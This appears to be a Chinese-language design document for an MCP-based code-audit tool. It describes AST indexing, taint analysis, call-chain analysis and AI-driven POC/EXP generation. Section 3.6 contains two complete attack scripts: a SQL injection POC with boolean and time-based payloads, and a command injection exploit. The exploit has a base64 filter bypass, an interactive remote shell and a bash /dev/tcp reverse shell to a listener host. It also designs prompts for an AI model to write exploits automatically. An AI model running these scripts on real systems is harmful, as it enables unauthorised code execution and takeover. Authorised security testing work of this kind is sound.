| `scan_vulnerabilities` | 协调 + 验证 | ✅ AST + 污点 | ✅ 多模型验证 |
| `generate_poc` | ✅ POC生成 | 提供上下文 | ✅ AI生成代码 |
| `generate_exp` | ✅ EXP生成 | 提供上下文 | ✅ AI生成代码 |
| `semantic_search` | ✅ 向量检索 | 代码提取 | ✅ 语义理解 |
| `query_cve` | ✅ CVE查询 | - | ✅ 相似度匹配 |
| `extract_chain_code` | 协调 | ✅ 代码提取 | - |
| `navigate_code` | 协调 | ✅ 导航查询 | - |
| `analyze_dependency` | 分析 | ✅ 依赖解析 | ✅ 风险评估 |

#### 2.4.3 配置文件（MCP客户端配置）

**Claude Desktop配置示例**：

```json
{
  "mcpServers": {
    "code-audit": {
      "command": "python",
      "args": ["-m", "codeaudit.server"],
      "env": {
        "ANTHROPIC_API_KEY": "${ANTHROPIC_API_KEY}",
        "OPENAI_API_KEY": "${OPENAI_API_KEY}",
        "GOOGLE_API_KEY": "${GOOGLE_API_KEY}",
        "GO_SERVICE_BINARY": "./bin/code-audit-go",
        "DATA_DIR": "~/.code-audit"
      }
    }
  }
}
```

---

## 3. 核心组件设计

### 3.1 AST解析器

#### 3.1.1 组件职责
- 使用go-tree-sitter解析源代码为抽象语法树
- 支持多种编程语言（Java、PHP、Python、JavaScript、Go等）
- 提供统一的AST访问接口

#### 3.1.2 类设计

```go
// AST解析器接口
type ASTParser interface {
    Parse(code string, language Language) (*AST, error)
    ParseFile(filePath string) (*AST, error)
    GetLanguage(filePath string) Language
}

// AST节点
type ASTNode struct {
    ID          string
    Type        NodeType
    StartLine   int
    EndLine     int
    StartColumn int
    EndColumn   int
    Children    []*ASTNode
    Parent      *ASTNode
    Attributes  map[string]interface{}
}

// AST树
type AST struct {
    Root       *ASTNode
    Language   Language
    FilePath   string
    SourceCode string
}

// 语言枚举
type Language int

const (
    LanguageJava Language = iota
    LanguagePython
    LanguageJavaScript
    LanguageTypeScript
    LanguagePHP
    LanguageGo
)

// 节点类型
type NodeType int

const (
    NodeTypeClass NodeType = iota
    NodeTypeMethod
    NodeTypeField
    NodeTypeParameter
    NodeTypeStatement
    NodeTypeExpression
    NodeTypeImport
)
```

#### 3.1.3 实现要点
- 为每种语言创建专用的TreeSitter解析器实例
- 实现AST遍历器（Visitor模式）
- 提供节点查询和过滤功能
- 缓存解析结果以提高性能

### 3.2 代码索引管理器

#### 3.2.1 组件职责
- 建立和维护代码结构索引
- 支持快速检索类、方法、字段
- 管理索引缓存和增量更新
- 提供索引导出和导入功能

#### 3.2.2 数据模型

```go
// 代码索引
type CodeIndex struct {
    ProjectID   string
    IndexedAt   time.Time
    Classes     map[string]*ClassInfo
    Methods     map[string]*MethodInfo
    Fields      map[string]*FieldInfo
    CallGraph   *CallGraph
    FileHashes  map[string]string // 文件内容哈希，用于增量更新
}

// 类信息
type ClassInfo struct {
    ClassName       string
    FullName        string // 包含包名的全限定名
    FilePath        string
    StartLine       int
    EndLine         int
    Package         string
    Modifiers       []string // public, abstract等
    ParentClass     string
    Interfaces      []string
    Methods         []string // 方法ID列表
    Fields          []string // 字段ID列表
    Annotations     []string
    ASTNode         *ASTNode
}

// 方法信息
type MethodInfo struct {
    MethodID        string
    MethodName      string
    ClassName       string
    FilePath        string
    StartLine       int
    EndLine         int
    Modifiers       []string
    ReturnType      string
    Parameters      []ParameterInfo
    Annotations     []string
    CalledBy        []string // 调用该方法的方法列表
    Calls           []string // 该方法调用的方法列表
    ThrownExceptions []string
    ASTNode         *ASTNode
    Signature       string // 方法签名用于重载识别
}

// 字段信息
type FieldInfo struct {
    FieldID    string
    FieldName  string
    ClassName  string
    FilePath   string
    Line       int
    Modifiers  []string
    Type       string
    InitValue  string
    ASTNode    *ASTNode
}

// 参数信息
type ParameterInfo struct {
    Name        string
    Type        string
    Annotations []string
}
```

#### 3.2.3 索引管理接口

```go
type IndexManager interface {
    // 索引构建
    BuildIndex(projectPath string) (*CodeIndex, error)
    UpdateIndex(projectPath string, changedFiles []string) error
    
    // 索引查询
    FindClass(className string) (*ClassInfo, error)
    FindMethod(methodName string) ([]*MethodInfo, error)
    FindField(fieldName string) ([]*FieldInfo, error)
    FindByInheritance(parentClass string) ([]*ClassInfo, error)
    
    // 索引持久化
    SaveIndex(index *CodeIndex, path string) error
    LoadIndex(path string) (*CodeIndex, error)
    
    // 索引统计
    GetStatistics() *IndexStatistics
}

type IndexStatistics struct {
    TotalClasses  int
    TotalMethods  int
    TotalFields   int
    IndexSize     int64
    LastUpdated   time.Time
}
```

### 3.3 污点分析引擎

#### 3.3.1 组件职责
- 执行函数级污点追踪
- 识别污点源（Source）和污点汇（Sink）
- 构建污点传播路径
- 识别净化函数（Sanitizer）

#### 3.3.2 数据模型

```go
// 污点分析结果
type TaintAnalysisResult struct {
    Sources   []*TaintSource
    Sinks     []*TaintSink
    Paths     []*TaintPath
    Sanitizers []*Sanitizer
}

// 污点源
type TaintSource struct {
    ID          string
    Type        SourceType
    Location    *CodeLocation
    Description string
    TaintLevel  TaintLevel
}

type SourceType int

const (
    SourceTypeHTTPRequest SourceType = iota
    SourceTypeFileInput
    SourceTypeDatabaseQuery
    SourceTypeUserInput
    SourceTypeEnvironmentVariable
)

type TaintLevel int

const (
    TaintLevelHigh TaintLevel = iota
    TaintLevelMedium
    TaintLevelLow
)

// 污点汇
type TaintSink struct {
    ID          string
    Type        SinkType
    Location    *CodeLocation
    Function    string
    Description string
}

type SinkType int

const (
    SinkTypeSQLExecution SinkType = iota
    SinkTypeCommandExecution
    SinkTypeFileOperation
    SinkTypeCodeEvaluation
    SinkTypeHTMLOutput
    SinkTypeSerialization
)

// 污点传播路径
type TaintPath struct {
    ID          string
    Source      *TaintSource
    Sink        *TaintSink
    Steps       []*PropagationStep
    Confidence  float64 // 0-1之间的置信度
    IsSanitized bool
    Sanitizers  []*Sanitizer
}

// 传播步骤
type PropagationStep struct {
    StepID      string
    Type        PropagationType
    Location    *CodeLocation
    Function    string
    Description string
}

type PropagationType int

const (
    PropagationTypeParameterPass PropagationType = iota
    PropagationTypeReturnValue
    PropagationTypeFieldAssignment
    PropagationTypeArrayElement
    PropagationTypeMethodCall
)

// 净化函数
type Sanitizer struct {
    ID          string
    Function    string
    Location    *CodeLocation
    Type        SanitizerType
    Effectiveness float64 // 净化有效性评分
}

type SanitizerType int

const (
    SanitizerTypeEscape SanitizerType = iota
    SanitizerTypeValidation
    SanitizerTypeEncoding
    SanitizerTypeFiltering
)

// 代码位置
type CodeLocation struct {
    FilePath    string
    StartLine   int
    EndLine     int
    ColumnStart int
    ColumnEnd   int
    Snippet     string // 代码片段
}
```

#### 3.3.3 污点分析接口

```go
type TaintAnalyzer interface {
    // 分析入口
    Analyze(index *CodeIndex, config *TaintConfig) (*TaintAnalysisResult, error)
    
    // 污点追踪
    TraceFromSource(source *TaintSource) ([]*TaintPath, error)
    TraceFromSink(sink *TaintSink) ([]*TaintPath, error)
    
    // 路径验证
    ValidatePath(path *TaintPath) (bool, error)
    
    // 配置管理
    AddSource(sourceType SourceType, pattern string)
    AddSink(sinkType SinkType, pattern string)
    AddSanitizer(sanitizerType SanitizerType, pattern string)
}

// 污点分析配置
type TaintConfig struct {
    SourcePatterns    map[SourceType][]string
    SinkPatterns      map[SinkType][]string
    SanitizerPatterns map[SanitizerType][]string
    MaxDepth          int
    TrackReflection   bool
    TrackAsync        bool
}
```

### 3.4 调用链分析器

#### 3.4.1 组件职责
- 构建完整的函数调用关系图
- 支持双向调用链查询（调用者和被调用者）
- 处理多态和反射调用
- 提供调用链可视化数据

#### 3.4.2 数据模型

```go
// 调用图
type CallGraph struct {
    Nodes map[string]*CallNode
    Edges []*CallEdge
}

// 调用节点
type CallNode struct {
    NodeID      string
    MethodInfo  *MethodInfo
    Callers     []string // 调用者节点ID
    Callees     []string // 被调用者节点ID
    CallCount   int      // 被调用次数
    Depth       int      // 调用深度
    IsRecursive bool     // 是否递归
}

// 调用边
type CallEdge struct {
    EdgeID      string
    From        string // 调用者节点ID
    To          string // 被调用者节点ID
    CallSite    *CodeLocation
    CallType    CallType
    Frequency   int
}

type CallType int

const (
    CallTypeStatic CallType = iota
    CallTypeInstance
    CallTypeConstructor
    CallTypeInterface
    CallTypeReflection
    CallTypeCallback
)

// 调用链
type CallChain struct {
    ChainID string
    Nodes   []*CallNode
    Edges   []*CallEdge
    Depth   int
}
```

#### 3.4.3 调用链分析接口

```go
type CallChainAnalyzer interface {
    // 构建调用图
    BuildCallGraph(index *CodeIndex) (*CallGraph, error)
    
    // 查询调用关系
    GetCallers(methodID string) ([]*CallNode, error)
    GetCallees(methodID string) ([]*CallNode, error)
    GetCallChain(fromMethod, toMethod string) ([]*CallChain, error)
    
    // 调用链分析
    FindPathsToSink(sinkMethod string) ([]*CallChain, error)
    AnalyzeImpactRange(methodID string) (*ImpactAnalysis, error)
    
    // 特殊调用处理
    ResolvePolymorphicCall(callSite *CodeLocation) ([]*CallNode, error)
    ResolveReflectiveCall(callSite *CodeLocation) ([]*CallNode, error)
}

// 影响范围分析
type ImpactAnalysis struct {
    TargetMethod    string
    DirectCallers   []*CallNode
    IndirectCallers []*CallNode
    AffectedClasses []string
    ImpactScore     float64
}
```

### 3.5 审计引擎

#### 3.5.1 组件职责
- 协调各模块执行代码审计
- 应用检测规则
- 生成漏洞报告
- 管理审计工作流

#### 3.5.2 数据模型

```go
// 漏洞报告
type VulnerabilityReport struct {
    ReportID      string
    ProjectID     string
    ScanTime      time.Time
    Vulnerabilities []*Vulnerability
    Statistics    *ScanStatistics
    Configuration *AuditConfig
}

// 漏洞信息
type Vulnerability struct {
    VulnID        string
    Type          VulnerabilityType
    Severity      Severity
    Title         string
    Description   string
    Location      *CodeLocation
    TaintPath     *TaintPath
    CallChain     *CallChain
    CWE           string
    OWASP         string
    CVE           []string
    Confidence    float64
    Exploitable   bool
    POC           string
    FixSuggestion string
    CodeSnippets  []*CodeSnippet
}

type VulnerabilityType int

const (
    VulnTypeSQLInjection VulnerabilityType = iota
    VulnTypeXSS
    VulnTypeCommandInjection
    VulnTypePathTraversal
    VulnTypeDeserialization
    VulnTypeSSRF
    VulnTypeXXE
    VulnTypeCSRF
    VulnTypeHardcodedSecret
    VulnTypeWeakCrypto
)

type Severity int

const (
    SeverityCritical Severity = iota
    SeverityHigh
    SeverityMedium
    SeverityLow
    SeverityInfo
)

// 代码片段
type CodeSnippet struct {
    FilePath  string
    StartLine int
    EndLine   int
    Code      string
    Role      string // "source", "propagator", "sink"
    Highlight []int  // 需要高亮的行号
}

// 扫描统计
type ScanStatistics struct {
    TotalFiles        int
    TotalLines        int
    TotalVulns        int
    VulnsBySeverity   map[Severity]int
    VulnsByType       map[VulnerabilityType]int
    ScanDuration      time.Duration
    FalsePositiveRate float64
}

// 审计配置
type AuditConfig struct {
    TargetPath        string
    IncludePatterns   []string
    ExcludePatterns   []string
    Languages         []Language
    RuleSets          []string
    MaxDepth          int
    EnableMultiModel  bool
    OutputFormats     []OutputFormat
}

type OutputFormat int

const (
    OutputFormatJSON OutputFormat = iota
    OutputFormatMarkdown
    OutputFormatHTML
)
```

#### 3.5.3 审计引擎接口

```go
type AuditEngine interface {
    // 审计执行
    StartAudit(config *AuditConfig) (*VulnerabilityReport, error)
    PauseAudit(auditID string) error
    ResumeAudit(auditID string) error
    StopAudit(auditID string) error
    
    // 规则管理
    LoadRuleSet(ruleSetName string) error
    AddCustomRule(rule *DetectionRule) error
    UpdateRule(ruleID string, rule *DetectionRule) error
    DeleteRule(ruleID string) error
    
    // 报告生成
    GenerateReport(reportID string, format OutputFormat) (string, error)
    ExportReport(reportID string, outputPath string) error
}

// 检测规则
type DetectionRule struct {
    RuleID      string
    Name        string
    Description string
    VulnType    VulnerabilityType
    Severity    Severity
    Language    Language
    Pattern     *RulePattern
    Enabled     bool
}

// 规则模式
type RulePattern struct {
    Type        PatternType
    Sources     []string
    Sinks       []string
    Sanitizers  []string
    Conditions  []string
}

type PatternType int

const (
    PatternTypeRegex PatternType = iota
    PatternTypeAST
    PatternTypeSemantic
)
```

### 3.6 POC/EXP生成器

#### 3.6.1 组件职责
- 基于漏洞分析生成POC代码
- 基于漏洞分析生成EXP代码
- 提供多语言POC/EXP模板
- 生成使用说明和安全警告

#### 3.6.2 POC生成原则和策略

**核心原则**：

1. **基于真实代码路径**：从实际的污点分析结果生成，而非通用模板
2. **可复现性优先**：确保POC能够准确复现漏洞
3. **安全可控**：只演示漏洞存在，不造成实际破坏
4. **文档完善**：包含详细说明和使用步骤

**生成策略详解**：

```python
# Python POC生成器实现
class POCGenerator:
    def __init__(self, ai_client, template_loader):
        self.ai_client = ai_client
        self.template_loader = template_loader
    
    async def generate_poc(self, vuln: Vulnerability) -> POCCode:
        """
        基于真实漏洞路径生成POC
        
        生成步骤：
        1. 提取漏洞链路代码
        2. 分析输入点和触发条件
        3. 使用AI生成POC代码
        4. 验证和优化POC
        """
        # 1. 提取完整的漏洞链路代码
        chain_code = await self._extract_chain_code(vuln)
        
        # 2. 分析漏洞特征
        vuln_features = self._analyze_vulnerability_features(vuln)
        
        # 3. 选择合适的POC模板
        template = self._select_template(vuln.type, vuln_features)
        
        # 4. 使用AI生成具体POC代码
        poc_code = await self._generate_with_ai(
            vuln=vuln,
            chain_code=chain_code,
            template=template,
            features=vuln_features
        )
        
        # 5. 验证POC有效性
        validation = await self._validate_poc(poc_code, vuln)
        
        # 6. 添加文档和警告
        poc_with_docs = self._add_documentation(poc_code, vuln, validation)
        
        return poc_with_docs
    
    def _analyze_vulnerability_features(self, vuln: Vulnerability) -> dict:
        """分析漏洞特征，用于指导POC生成"""
        return {
            "entry_point": self._extract_entry_point(vuln),
            "input_params": self._extract_input_params(vuln),
            "sink_function": self._extract_sink_function(vuln),
            "framework": self._detect_framework(vuln),
            "auth_required": self._check_auth_requirement(vuln),
            "payload_type": self._determine_payload_type(vuln),
        }
    
    async def _generate_with_ai(self, vuln, chain_code, template, features):
        """使用AI生成POC代码"""
        prompt = f"""
基于以下真实的漏洞分析结果，生成一个可执行的POC代码：

漏洞类型: {vuln.type}
严重程度: {vuln.severity}

漏洞链路代码:
{chain_code}

入口点: {features['entry_point']}
输入参数: {features['input_params']}
危险函数: {features['sink_function']}
框架: {features['framework']}

要求：
1. 基于真实的代码路径和参数生成
2. POC应该能够证明漏洞存在，但不造成实际破坏
3. 包含详细注释说明每一步
4. 提供使用说明和预期结果
5. 生成Python语言的POC代码

请生成完整的POC代码：
"""
        
        response = await self.ai_client.generate(
            prompt=prompt,
            model="claude-3-sonnet-20240229",
            temperature=0.3  # 低温度保证准确性
        )
        
        return self._parse_poc_from_response(response)
```

**POC代码示例（SQL注入）**：

```python
#!/usr/bin/env python3
"""
POC for SQL Injection Vulnerability in UserController.getUser()
CVE: N/A (Internal Finding)
Severity: HIGH
Discovered by: Code Audit MCP

⚠️  WARNING: This POC is for authorized security testing only.
⚠️  Unauthorized use may violate laws and regulations.
"""

import requests
import argparse

class SQLInjectionPOC:
    """
    SQL注入POC - 基于真实代码路径
    
    漏洞路径:
    1. UserController.getUser(@RequestParam String id)  [Source]
    2. UserService.findUser(String userId)              [Propagator]
    3. UserRepository.query(String userId)              [Sink]
       - SQL: "SELECT * FROM users WHERE id = '" + userId + "'"
    """
    
    def __init__(self, target_url: str):
        self.target_url = target_url
        self.session = requests.Session()
    
    def test_basic_injection(self):
        """
        测试1: 基础SQL注入测试
        Payload: ' OR '1'='1
        预期: 返回所有用户数据（证明注入成功）
        """
        print("[*] Testing basic SQL injection...")
        
        # 基于真实参数名构造payload
        payload = "' OR '1'='1"
        
        try:
            response = self.session.get(
                f"{self.target_url}/api/user",
                params={"id": payload},  # 真实的参数名
                timeout=10
            )
            
            if response.status_code == 200:
                data = response.json()
                if isinstance(data, list) and len(data) > 1:
                    print(f"[+] SQL Injection CONFIRMED!")
                    print(f"[+] Retrieved {len(data)} users (should be 1)")
                    print(f"[+] Sample data: {data[0]}")
                    return True
            
            print("[-] Injection failed or filtered")
            return False
            
        except Exception as e:
            print(f"[-] Error: {e}")
            return False
    
    def test_time_based_blind(self):
        """
        测试2: 时间盲注测试
        Payload: ' AND SLEEP(5)--
        预期: 响应延迟5秒（证明SQL执行）
        """
        print("[*] Testing time-based blind SQL injection...")
        
        import time
        payload = "' AND SLEEP(5)--"
        
        start = time.time()
        try:
            response = self.session.get(
                f"{self.target_url}/api/user",
                params={"id": payload},
                timeout=10
            )
            elapsed = time.time() - start
            
            if elapsed >= 5:
                print(f"[+] Time-based blind SQLi CONFIRMED!")
                print(f"[+] Response delayed by {elapsed:.2f}s")
                return True
            
        except requests.Timeout:
            print("[+] Request timed out - possible SQLi")
            return True
        except Exception as e:
            print(f"[-] Error: {e}")
        
        return False
    
    def run_all_tests(self):
        """运行所有测试"""
        print("="*60)
        print("SQL Injection POC")
        print(f"Target: {self.target_url}")
        print("="*60)
        
        results = {
            "basic_injection": self.test_basic_injection(),
            "time_based_blind": self.test_time_based_blind(),
        }
        
        print("\n" + "="*60)
        print("Results Summary:")
        for test, result in results.items():
            status = "VULNERABLE" if result else "SAFE"
            print(f"  {test}: {status}")
        print("="*60)
        
        return any(results.values())

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SQL Injection POC")
    parser.add_argument("--target", required=True, help="Target URL (e.g., http://target.com)")
    args = parser.parse_args()
    
    poc = SQLInjectionPOC(args.target)
    vulnerable = poc.run_all_tests()
    
    exit(0 if vulnerable else 1)

"""
使用说明:
    python poc_sqli_001.py --target http://target.com

预期结果:
    如果存在漏洞，将输出:
    - 返回的用户数量超过1个
    - 或响应时间延迟5秒
    
修复建议:
    使用参数化查询:
    String sql = "SELECT * FROM users WHERE id = ?";
    return jdbcTemplate.query(sql, new Object[]{userId}, userRowMapper);
    
相关资源:
    - OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
    - CWE-89: https://cwe.mitre.org/data/definitions/89.html
"""
```

#### 3.6.3 EXP生成原则和策略

**核心原则**：

1. **模块化设计**：EXP应该是可配置和可扩展的
2. **安全警告突出**：必须包含明显的安全警告和使用限制
3. **参数化配置**：允许自定义目标、端口等参数
4. **详细技术说明**：解释利用原理和工作机制

**EXP代码示例（命令注入）**：

```python
#!/usr/bin/env python3
"""
EXP for Command Injection in FileProcessor.processFile()

🚨 SECURITY WARNING 🚨
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
⚠️  This exploit code is for AUTHORIZED SECURITY TESTING ONLY!
⚠️  Unauthorized access to computer systems is ILLEGAL!
⚠️  Use only on systems you own or have explicit permission to test!
⚠️  The authors are NOT responsible for any misuse or damage!
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

Severity: CRITICAL
Impact: Remote Code Execution (RCE)
CVSS Score: 9.8 (Critical)
"""

import requests
import argparse
import base64
from typing import Optional

class CommandInjectionExploit:
    """
    模块化命令注入利用工具
    
    漏洞原理:
    1. FileProcessor.processFile()接收文件名参数
    2. 直接拼接到shell命令: "convert " + filename + " output.pdf"
    3. 未进行任何过滤，导致命令注入
    
    利用方式:
    - 注入payload: "; whoami #"
    - 执行任意系统命令
    """
    
    def __init__(self, target: str, port: int = 80, ssl: bool = False):
        self.target = target
        self.port = port
        self.protocol = "https" if ssl else "http"
        self.base_url = f"{self.protocol}://{target}:{port}"
        self.session = requests.Session()
        
    def check_vulnerability(self) -> bool:
        """
        步骤1: 检测漏洞是否存在
        使用无害payload测试
        """
        print("[*] Step 1: Checking if target is vulnerable...")
        
        # 使用sleep命令测试
        test_payload = "; sleep 3 #"
        
        import time
        start = time.time()
        
        try:
            response = self.session.post(
                f"{self.base_url}/api/file/process",
                json={"filename": f"test.txt{test_payload}"},
                timeout=10
            )
            elapsed = time.time() - start
            
            if elapsed >= 3:
                print("[+] Target is VULNERABLE to command injection!")
                return True
            else:
                print("[-] Target does not appear vulnerable")
                return False
                
        except Exception as e:
            print(f"[-] Error during check: {e}")
            return False
    
    def execute_command(self, command: str) -> Optional[str]:
        """
        步骤2: 执行任意命令
        
        Args:
            command: 要执行的shell命令
            
        Returns:
            命令输出结果（如果成功）
        """
        print(f"[*] Step 2: Executing command: {command}")
        
        # 构造payload，使用base64编码绕过过滤
        encoded_cmd = base64.b64encode(command.encode()).decode()
        payload = f"; echo {encoded_cmd} | base64 -d | sh #"
        
        try:
            response = self.session.post(
                f"{self.base_url}/api/file/process",
                json={"filename": f"test.txt{payload}"},
                timeout=10
            )
            
            if response.status_code == 200:
                print("[+] Command executed successfully!")
                return response.text
            else:
                print(f"[-] Command execution failed: {response.status_code}")
                return None
                
        except Exception as e:
            print(f"[-] Error: {e}")
            return None
    
    def get_reverse_shell(self, lhost: str, lport: int):
        """
        步骤3: 获取反向shell
        
        Args:
            lhost: 监听主机IP
            lport: 监听端口
        """
        print(f"[*] Step 3: Attempting reverse shell to {lhost}:{lport}")
        print("[!] Make sure you have a listener: nc -lvnp {lport}")
        
        # Bash反向shell payload
        rev_shell = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
        
        result = self.execute_command(rev_shell)
        
        if result:
            print("[+] Reverse shell payload sent!")
            print("[+] Check your listener for incoming connection")
        else:
            print("[-] Failed to send reverse shell payload")
    
    def interactive_shell(self):
        """
        步骤4: 交互式shell
        """
        print("[*] Step 4: Starting interactive shell...")
        print("[*] Type 'exit' to quit\n")
        
        while True:
            try:
                cmd = input(f"shell@{self.target}> ")
                
                if cmd.lower() in ['exit', 'quit']:
                    break
                    
                if not cmd.strip():
                    continue
                
                result = self.execute_command(cmd)
                if result:
                    print(result)
                    
            except KeyboardInterrupt:
                print("\n[*] Exiting...")
                break
            except Exception as e:
                print(f"[-] Error: {e}")
    
    def run_exploit(self, mode: str, **kwargs):
        """
        主利用函数
        
        Args:
            mode: 利用模式 ('check', 'exec', 'shell', 'reverse')
            **kwargs: 模式特定参数
        """
        print("="*70)
        print("Command Injection Exploit")
        print(f"Target: {self.base_url}")
        print("="*70)
        
        # 先检测漏洞
        if not self.check_vulnerability():
            print("\n[-] Target is not vulnerable. Exiting.")
            return False
        
        print()
        
        # 根据模式执行
        if mode == 'check':
            print("[+] Vulnerability confirmed!")
            return True
            
        elif mode == 'exec':
            command = kwargs.get('command')
            if command:
                self.execute_command(command)
                return True
                
        elif mode == 'shell':
            self.interactive_shell()
            return True
            
        elif mode == 'reverse':
            lhost = kwargs.get('lhost')
            lport = kwargs.get('lport', 4444)
            if lhost:
                self.get_reverse_shell(lhost, lport)
                return True
        
        return False

def main():
    parser = argparse.ArgumentParser(
        description="Command Injection Exploit (Authorized Use Only!)",
        epilog="Example: python exp_cmdi_001.py --target 192.168.1.100 --mode check"
    )
    
    # 基础参数
    parser.add_argument('--target', required=True, help='Target IP or hostname')
    parser.add_argument('--port', type=int, default=80, help='Target port (default: 80)')
    parser.add_argument('--ssl', action='store_true', help='Use HTTPS')
    
    # 模式选择
    parser.add_argument('--mode', required=True, 
                       choices=['check', 'exec', 'shell', 'reverse'],
                       help='Exploitation mode')
    
    # 模式特定参数
    parser.add_argument('--command', help='Command to execute (for exec mode)')
    parser.add_argument('--lhost', help='Listener IP (for reverse mode)')
    parser.add_argument('--lport', type=int, default=4444, 
                       help='Listener port (for reverse mode)')
    
    args = parser.parse_args()
    
    # 安全确认
    print("\n🚨 SECURITY WARNING 🚨")
    print("You are about to run an exploit tool.")
    print("Ensure you have EXPLICIT AUTHORIZATION to test this target!")
    confirm = input("\nType 'I UNDERSTAND' to continue: ")
    
    if confirm != "I UNDERSTAND":
        print("Exploitation cancelled.")
        return
    
    print()
    
    # 运行exploit
    exploit = CommandInjectionExploit(args.target, args.port, args.ssl)
    
    kwargs = {
        'command': args.command,
        'lhost': args.lhost,
        'lport': args.lport,
    }
    
    exploit.run_exploit(args.mode, **kwargs)

if __name__ == "__main__":
    main()

"""
使用示例:

1. 检测漏洞:
   python exp_cmdi_001.py --target 192.168.1.100 --mode check

2. 执行单条命令:
   python exp_cmdi_001.py --target 192.168.1.100 --mode exec --command "whoami"

3. 交互式Shell:
   python exp_cmdi_001.py --target 192.168.1.100 --mode shell

4. 反向Shell:
   # 先在本地监听: nc -lvnp 4444
   python exp_cmdi_001.py --target 192.168.1.100 --mode reverse --lhost 192.168.1.10

技术细节:
- 注入点: POST /api/file/process {"filename": "..."}
- 漏洞代码: Runtime.exec("convert " + filename + " output.pdf")
- Payload: "; <command> #"
- 绕过: base64编码避免特殊字符过滤

修复建议:
1. 使用白名单验证文件名
2. 避免使用Runtime.exec()，使用ProcessBuilder
3. 如必须使用，严格过滤特殊字符: ; | & $ ` \ ! < >
4. 使用参数化命令而非字符串拼接

参考资料:
- OWASP Command Injection: https://owasp.org/www-community/attacks/Command_Injection
- CWE-78: https://cwe.mitre.org/data/definitions/78.html
"""
```

#### 3.6.4 数据模型

```go
// POC代码
type POCCode struct {
    POCID         string
    VulnID        string
    Language      POCLanguage
    Code          string
    Description   string
    Usage         string
    Requirements  []string
    ExpectedResult string
    Verified      bool
}

type POCLanguage int

const (
    POCLanguagePython POCLanguage = iota
    POCLanguageJavaScript
    POCLanguageBash
    POCLanguageJava
)

// EXP代码
type EXPCode struct {
    EXPID         string
    VulnID        string
    Language      POCLanguage
    Code          string
    Description   string
    Usage         string
    Requirements  []string
    Parameters    []EXPParameter
    SafetyWarning string
    Impact        string
}

// EXP参数
type EXPParameter struct {
    Name        string
    Type        string
    Description string
    Required    bool
    DefaultValue string
}
```

#### 3.6.5 生成器接口

```go
type POCGenerator interface {
    GeneratePOC(vuln *Vulnerability) (*POCCode, error)
    GeneratePOCWithLanguage(vuln *Vulnerability, lang POCLanguage) (*POCCode, error)
    VerifyPOC(poc *POCCode) (bool, error)
}

type EXPGenerator interface {
    GenerateEXP(vuln *Vulnerability) (*EXPCode, error)
    GenerateEXPWithLanguage(vuln *Vulnerability, lang POCLanguage) (*EXPCode, error)
    CustomizeEXP(exp *EXPCode, params map[string]interface{}) (*EXPCode, error)
}
```

### 3.7 多模型验证引擎

#### 3.7.1 组件职责
- 实现Self-RAG机制
- 使用多个AI模型交叉验证
- 计算置信度评分
- 减少误报

#### 3.7.2 数据模型

```go
// 验证结果
type ValidationResult struct {
    VulnID      string
    IsValid     bool
    Confidence  float64
    ModelVotes  []ModelVote
    Evidence    []Evidence
    Explanation string
}

// 模型投票
type ModelVote struct {
    ModelName  string
    Vote       bool // true表示认为是漏洞
    Confidence float64
    Reasoning  string
}

// 证据
type Evidence struct {
    Type        EvidenceType
    Description string
    CodeRef     *CodeLocation
    Relevance   float64
}

type EvidenceType int

const (
    EvidenceTypeDataFlow EvidenceType = iota
    EvidenceTypeHistoricalCase
    EvidenceTypeCodePattern
    EvidenceTypeSecurityControl
)
```

#### 3.7.3 验证引擎接口

```go
type ValidationEngine interface {
    ValidateVulnerability(vuln *Vulnerability) (*ValidationResult, error)
    ValidateWithModels(vuln *Vulnerability, models []string) (*ValidationResult, error)
    GetHistoricalCases(vuln *Vulnerability) ([]*HistoricalCase, error)
    CalculateConfidence(votes []ModelVote) float64
}

// 历史案例
type HistoricalCase struct {
    CaseID      string
    VulnType    VulnerabilityType
    CVE         string
    Description string
    CodePattern string
    Similarity  float64
}
```

### 3.8 语义检索引擎

#### 3.8.1 组件职责
- 集成txtai进行语义检索
- 建立代码语义向量索引
- 支持自然语言查询
- 查找语义相似代码

#### 3.8.2 接口设计

```go
type SemanticSearchEngine interface {
    // 索引构建
    BuildVectorIndex(codebase []*CodeSnippet) error
    UpdateVectorIndex(codebase []*CodeSnippet) error
    
    // 语义搜索
    SearchByText(query string, topK int) ([]*SearchResult, error)
    SearchByCode(codeSnippet string, topK int) ([]*SearchResult, error)
    FindSimilarVulns(vuln *Vulnerability) ([]*Vulnerability, error)
    
    // 自然语言查询
    QueryCode(naturalLanguageQuery string) ([]*CodeSnippet, error)
}

// 搜索结果
type SearchResult struct {
    CodeSnippet *CodeSnippet
    Score       float64
    Explanation string
}
```

---

## 4. MCP工具接口设计

### 4.1 工具列表

根据需求文档，系统需要注册以下MCP工具：

| 工具名称 | 功能描述 |
|---------|---------|
| `search_class` | 搜索类定义 |
| `search_method` | 搜索方法定义 |
| `search_field` | 搜索字段定义 |
| `query_inheritance` | 查询继承关系 |
| `analyze_call_chain` | 分析调用链 |
| `trace_sink` | 追踪危险函数调用链 |
| `scan_vulnerabilities` | 执行漏洞扫描 |
| `generate_poc` | 生成POC代码 |
| `generate_exp` | 生成EXP代码 |
| `semantic_search` | 语义代码搜索 |
| `query_cve` | 查询历史漏洞 |
| `extract_chain_code` | 提取漏洞链路代码 |
| `navigate_code` | 交互式代码导航 |
| `analyze_dependency` | 分析依赖关系 |

### 4.2 工具接口规范

#### 4.2.1 search_class

```json
{
  "name": "search_class",
  "description": "搜索指定的类定义，返回类的详细信息包括位置、方法、字段等",
  "inputSchema": {
    "type": "object",
    "properties": {
      "className": {
        "type": "string",
        "description": "要搜索的类名，可以是简单名或全限定名"
      },
      "includeInherited": {
        "type": "boolean",
        "description": "是否包含继承的方法和字段",
        "default": false
      },
      "includeCode": {
        "type": "boolean",
        "description": "是否包含完整的类代码",
        "default": false
      }
    },
    "required": ["className"]
  }
}
```

**响应格式:**
```json
{
  "classes": [
    {
      "className": "UserController",
      "fullName": "com.example.controller.UserController",
      "filePath": "/src/main/java/com/example/controller/UserController.java",
      "startLine": 15,
      "endLine": 150,
      "package": "com.example.controller",
      "modifiers": ["public"],
      "parentClass": "BaseController",
      "interfaces": ["Serializable"],
      "methods": ["getUser", "createUser", "updateUser"],
      "fields": ["userService", "logger"],
      "annotations": ["@RestController", "@RequestMapping(\"/api/user\")"],
      "code": "public class UserController { ... }" 
    }
  ]
}
```

